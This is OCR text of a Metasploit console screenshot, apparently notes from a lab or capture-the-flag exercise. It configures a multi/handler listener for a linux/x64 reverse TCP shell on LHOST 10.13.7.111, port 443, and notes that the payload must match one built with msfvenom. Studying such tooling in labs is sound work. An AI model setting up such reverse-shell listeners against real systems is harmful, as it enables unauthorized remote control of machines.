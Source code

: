                                       ###   ###
                                    ####   ###
               ####          ##########   ####
               #######################   ####
                 ####################   ####
                  ##################  ####
                    ############      ##
                       ########        ###
                      #########        #####
                    ############      ######
                   ########      #########
                     #####       ########
                       ###       #########
                      ######    ############
                     #######################
                     #   #   ###  #   #   ##
                     ########################
                      ##     ##   ##     ##
                            https://metasploit.com


       =[ metasploit v6.1.31-dev                          ]
+ -- --=[ 2201 exploits - 1166 auxiliary - 395 post       ]
+ -- --=[ 596 payloads - 45 encoders - 11 nops            ]
+ -- --=[ 9 evasion                                       ]

Metasploit tip: Tired of setting RHOSTS for modules? Try 
globally setting it with setg RHOSTS x.x.x.x

#[*] Starting persistent handler(s)...
msf6 > 

#msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/shell/reverse_tcp
PAYLOAD => linux/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > 

	The payload will be set to whatever payload you used when making your exploit with msfvenom.
	So for this one it looks like he used PAYLOAD => 'linux/x64/shell/reverse_tcp'



#msf6 > use exploit/multi/handler 
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set PAYLOAD linux/x64/shell/reverse_tcp
PAYLOAD => linux/x64/shell/reverse_tcp
msf6 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf6 exploit(multi/handler) > set LHOST 10.13.7.111
LHOST => 10.13.7.111
msf6 exploit(multi/handler) > 

